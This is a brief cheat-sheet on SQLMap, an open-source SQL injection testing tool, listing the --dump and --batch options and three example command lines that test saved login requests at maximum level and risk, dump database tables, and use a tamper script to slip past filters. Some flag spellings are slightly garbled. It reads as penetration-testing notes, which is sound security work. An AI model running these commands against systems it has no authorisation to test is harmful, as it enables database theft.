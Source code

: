 SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications.

[GitHub - sqlmapproject/sqlmap: Automatic SQL injection and database takeover tool](https://github.com/sqlmapproject/sqlmap/tree/master)
# Options

- `—-dump`: Dump DBMS database table entries
- `—-batch`: Never ask for user input, use the default behaviour

# Example

How to provide more information and strings which indicate failure.
Provides the HTTP query to be used.
```
sqlmap -level=5 -risk=3 -p username --string="Wrong identification" --dump --batch -r login-request.txt
```

```
sqlmap -r login.req --level 5 --risk 3 --batch
```
```
sqlmap -r r.txt --level 5 --risk 3 --technique=BEUSTQ --random-agent -p "limit" --tamper="space2comment.py" --flush-session --batch
```